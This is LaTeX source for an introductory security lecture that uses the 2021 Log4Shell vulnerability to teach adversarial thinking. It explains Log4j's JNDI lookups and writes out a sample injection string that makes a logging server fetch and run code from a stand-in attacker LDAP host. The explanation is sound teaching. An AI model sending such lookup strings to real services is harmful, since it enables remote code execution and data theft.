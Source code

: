 \chapter{Lecture 0 : Preliminaries}

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} Why the course exists, told through one real disaster
(\textbf{Log4Shell}, 2021), what ``hacking'' means, what the course aims at (principles that
outlast technology, \textbf{adversarial thinking}, a toolbox of mechanisms) and how it is
organised. \\
\textbf{Why is it useful?} It sets the attitude of the whole course: always ask ``how can this be
made to fail?'', not only ``how can this be made to work?''.
\end{rembox}

\section{An introductory story: Log4Shell}

\begin{exbox}[title={Log4j and JNDI}]
\textbf{Log4j} is a very popular Java logging library: applications use it to record user
logins, errors, system events, debug information. It is in millions of applications, from
Minecraft to the cloud services of Apple, Amazon and Google. It can expand placeholders in the
logged text, e.g.\ \texttt{log.info("Running on Java version: \$\{java:version\}.")}. \\
\textbf{JNDI} is a Java service that distributes serialized objects \emph{and code}. Log4j
supported JNDI lookups inside log messages, e.g.\ \texttt{\$\{jndi:ldap://epfl.ch/statusJava\}}:
the logger fetches an object from a remote server while logging.
\end{exbox}

\begin{exbox}[title={The attack (CVE-2021-44228, ``Log4Shell'', 10 December 2021)}]
A chat server logs the messages of its users: \texttt{logger.debug("User \{\} sent message
\{\}", user, message)}. A user sends the message
\texttt{\$\{jndi:ldap://myAttackerServer.ch/anAttackerObject\}}. While \emph{logging} it, the
server contacts the attacker's server, downloads the attacker's object and runs its code:
\textbf{remote code execution} from a chat message. \\
Severity score \textbf{10.0 / 10}. Attack surface: nearly every major organisation. Consequences:
ransomware, cryptocurrency miners, theft of data and credentials, persistent backdoors. A global
scramble to patch.
\end{exbox}

